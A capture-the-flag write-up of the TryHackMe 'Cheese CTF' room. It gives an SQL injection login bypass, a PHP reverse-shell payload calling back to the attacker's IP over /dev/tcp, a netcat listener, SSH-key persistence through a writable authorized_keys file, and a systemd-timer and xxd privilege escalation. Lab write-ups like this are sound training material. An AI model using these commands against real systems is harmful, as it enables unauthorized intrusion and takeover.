





# Introduction

This is my resolution of Cheese CTF Room of TryHackMe.

# Scanning the target

I used Nmap command to scan for open ports on the target machine and discovered three accessible ports:

- Port 21: FTP service
- Port 22: SSH service
- Port 80: HTTP web server



Exploring the HTTP connection, I found a page with login: 


# SQL Injection

I suspected an SQL injection vulnerability, so I started testing with sqlmap:
```
sqlmap -u "http://10.10.205.255/login.php" --data="username=test&password=test" --batch
```

Sqlmap tests if any parameters (username, password, or the URL itself) are vulnerable to SQL injection.



After these results, I could realise what the username and password were so I tried: ```' || 1=1;-- -``` as the username and ```'``` as password and get in!!

# Reverse Shell Access

Then, to get a Reverse Shell, I generated a PHP payload with the command:
```
echo <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.149.56/4444 0>&1'"); ?> > payload.txt
```
Then, when run on the server, will open a connection back to my machine.


Then, I sent the payload to the server using:: ```curl "http://10.10.187.67/secret-script.php?file=$(cat payload.txt)"```

Open another terminal and run ```rlwrap nc -lvnp 4444```
And it's possible to enter the target machine!!

# File Exploration

Now to explore the files, always got "Permission denied" erros. So,  searched for writable files and found that ```~/.ssh/authorized_keys``` was writable, where ussually the SSH keys are saved.

On my own machine, I got my SSH public key with ```cat ~/.ssh/id_rsa.pub```, and add it to the authorized_keys:
```echo 'ssh-ed25519 sshKey kali@kali' >> /home/comte/.ssh/authorized_keys```

After this I write ```cat user.txt``` and find the firts THM flag!!

# Sudo + Timer Exploit

For the root.txt flag, I started with sudo command:



So, I explored the exploit.timer file, and edit it to ```OnBootSec=5s```.

I then reloaded the systemd daemon and started the timer service:

Taking a look at the exploit.service:
```
sudo systemctl daemon-reexec
sudo systemctl start exploit.timer
```
After confirming that the timer was active, I explored exploit.service:


I went digging and found this [XXD Documentation](https://gtfobins.github.io/gtfobins/xxd/?source=post_page-----5c1e2193880b---------------------------------------)

After a few tries I was abel to get the flag with ```opt/xxd "$LFILE" | xxd -r```!!

# Conclusion
This room was a fun mix of enumeration, SQLi exploitation, reverse shell tactics, and a clever privilege escalation via systemd timers.